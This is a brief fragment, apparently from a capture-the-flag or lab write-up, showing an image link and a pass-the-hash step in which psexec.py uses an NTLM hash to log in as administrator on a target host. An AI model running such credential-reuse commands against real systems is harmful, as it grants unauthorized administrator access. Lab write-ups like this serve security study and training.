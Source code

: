 ![image-20221015203052658](./images/image-20221015203052658.png)



pass the hash. Got the system.

```bash
psexec.py -hashes :32693b11e6aa90eb43d32c72a07ceea6 administrator@$tip
```
